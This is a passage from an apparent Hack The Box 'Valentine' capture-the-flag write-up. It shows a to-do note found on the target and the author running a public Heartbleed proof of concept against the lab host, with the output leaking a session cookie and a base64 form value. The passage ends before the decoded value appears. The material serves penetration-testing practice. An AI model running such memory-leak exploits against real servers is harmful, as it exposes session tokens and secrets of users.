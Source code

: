 Notes.txt is this:
```
To do:

1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
```

# Exploitation
---
## Heartbleed.py
Lots of failed attempts trying to get the .py file from the [Proof of Concept Github page](https://github.com/sensepost/heartbleed-poc) to work. Had to install python2 on the machine and that seemed to at least be getting me some output, but even after many attempts I wasn't seeing anything wortwhile in the output.

Rather than resort to metasploit right away I started looking for alternatives and found [this python code](https://github.com/sensepost/heartbleed-poc) that may get us to where we need to go.

Created the .py file, copied in the code, reviewed usage, made it executable, ran it and came up with the following results:
```bash
─[us-vip-26]─[10.10.14.6]─[htb-ghohst@pwnbox-base]─[~/valentine]
└──╼ [★]$ python2 exploit.py 10.10.10.79
Connecting...
Sending Client Hello...
Waiting for Server Hello...
Received message: type = 22, ver = 0302, length = 74
Received message: type = 22, ver = 0302, length = 885
Received message: type = 22, ver = 0302, length = 781
Received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
Received message: type = 24, ver = 0302, length = 16384
Received message: type = 24, ver = 0302, length = 16384
Received message: type = 24, ver = 0302, length = 16384
Received message: type = 24, ver = 0302, length = 16384
Received heartbeat response:
...-..P....Z.>......c.3A7..l..$`.Ig.......3......127.0.0.1..Accept: */*..Cookie: PHPSESSID=n12acqnj0efoq5etm5d12k6j85..User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0..Referer: https://127.0.0.1/decode.php..Content-Type: application/x-www-form-urlencoded..Content-Length: 42....$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==.....T.d........vj.V.
```

The item that stands out the most here seems to be base64 encoded, and what do you know, the site itself has a built in decoder!
When decoded we get:
